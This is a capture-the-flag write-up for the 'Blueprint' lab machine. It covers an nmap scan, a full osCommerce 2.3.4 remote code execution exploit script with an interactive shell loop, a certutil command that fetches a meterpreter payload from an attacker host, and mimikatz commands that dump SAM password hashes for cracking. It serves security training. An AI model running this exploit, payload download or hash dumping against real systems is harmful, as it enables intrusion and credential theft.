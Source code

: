 
# Blueprint

We'll start with our usual nmap scan:

```bash
$ sudo nmap 10.10.207.52 -Pn -p- -A -vv -T4 --script vuln -oN nmap-scan --min-parallelism 55
```

Select running services with

```bash
$ cat nmap-scan | grep -e '[0-9]\+/tcp[[:space:]].*' -o
```

Some results we've got:

[x] 80/tcp    open   http         syn-ack ttl 127 Microsoft IIS httpd 7.5

[x] 135/tcp   open   msrpc        syn-ack ttl 127 Microsoft Windows RPC

[x] 139/tcp   open   netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn

[x] 443/tcp   open   ssl/http     syn-ack ttl 127 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)

[x] 445/tcp   open   microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)

[x] 3306/tcp  open   mysql        syn-ack ttl 127 MariaDB (unauthorized)

[x] 8080/tcp  open   http         syn-ack ttl 127 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)

[x] 49152/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC

[x] 49153/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC

[x] 49154/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC

[x] 49158/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC

[x] 49159/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC

[x] 49160/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC

By simply visiting https://$IP/ we can tell that it runs oscommerce-2.3.4.
There already is an [exploit](https://www.exploit-db.com/exploits/50128)
for this particular version, although we have to slightly modify it:

```python
# Exploit Title: osCommerce 2.3.4.1 - Remote Code Execution (2)
# Vulnerability: Remote Command Execution when /install directory wasn't removed by the admin
# Exploit: Exploiting the install.php finish process by injecting php payload into the db_database parameter & read the system command output from configure.php
# Notes: The RCE doesn't need to be authenticated
# Date: 26/06/2021
# Exploit Author: Bryan Leong <NobodyAtall>
# Vendor Homepage: https://www.oscommerce.com/
# Version: osCommerce 2.3.4
# Tested on: Windows

import requests
import sys

if(len(sys.argv) != 2):
	print("please specify the osCommerce url")
	print("format: python3 osCommerce2_3_4RCE.py <url>")
	print("eg: python3 osCommerce2_3_4RCE.py http://localhost/oscommerce-2.3.4/catalog")
	sys.exit(0)

baseUrl = sys.argv[1]
testVulnUrl = baseUrl + '/install/install.php'

def rce(command):
	#targeting the finish step which is step 4
	targetUrl = baseUrl + '/install/install.php?step=4'

	payload = "');"
	payload += "passthru('" + command + "');"    # injecting system command here
	payload += "/*"

	#injecting parameter
	data = {
		'DIR_FS_DOCUMENT_ROOT': './',
		'DB_DATABASE' : payload
	}

	response = requests.post(targetUrl, data=data, verify=False)

	if(response.status_code == 200):
		#print('[*] Successfully injected payload to config file')

		readCMDUrl = baseUrl + '/install/includes/configure.php'
		cmd = requests.get(readCMDUrl, verify=False)

		commandRsl = cmd.text.split('\n')

		if(cmd.status_code == 200):
			#print('[*] System Command Execution Completed')
			#removing the error message above
			for i in range(2, len(commandRsl)):
				print(commandRsl[i])
		else:
			return '[!] Configure.php not found'


	else:
		return '[!] Fail to inject payload'



#testing vulnerability accessing the directory
test = requests.get(testVulnUrl, verify=False)

#checking the install directory still exist or able to access or not
if(test.status_code == 200):
	print('[*] Install directory still available, the host likely vulnerable to the exploit.')

	#testing system command injection
	print('[*] Testing injecting system command to test vulnerability')
	cmd = 'whoami'

	print('User: ', end='')
	err = rce(cmd)

	if(err != None):
		print(err)
		sys.exit(0)

	while(True):
		cmd = input('RCE_SHELL$ ')
		err = rce(cmd)

		if(err != None):
			print(err)
			sys.exit(0)

else:
	print('[!] Install directory not found, the host is not vulnerable')
	sys.exit(0)
```

Generate a meterpreter shell and download it with command:

```
$ certutil.exe -urlcache -f http://$ATTACKER_IP:$ATTACKER_PORT/shell.exe shell.exe
```

Execute it:

```
.\shell.exe
```

Cool. Now, grab Mimikatz from [Github Releases](https://github.com/gentilkiwi/mimikatz/releases).
You'll see a warning about malware on the page, because it serves already compiled
mimikatz exemplars. Personally, I downloaded the .7z archive and used compiled
version for Win32.

First, verify that you can dump hashes (Which of course you can, given that you have
nt authority\system privileges):

```
mimikatz # privilege::debug
```

You should see 

> Privilege '20' OK

Next, do

```
mimikatz # token::elevate
mimikatz # lsadump::sam
```

And there you have a Lab's NTLM hash. Save it to a file on your machine and crack it!
Go to [CrackStation](https://crackstation.net/), paste the hash and there you have it -
the first flag!

Root flag can be found at C:\Users\Administrator\Desktop\root.txt.txt
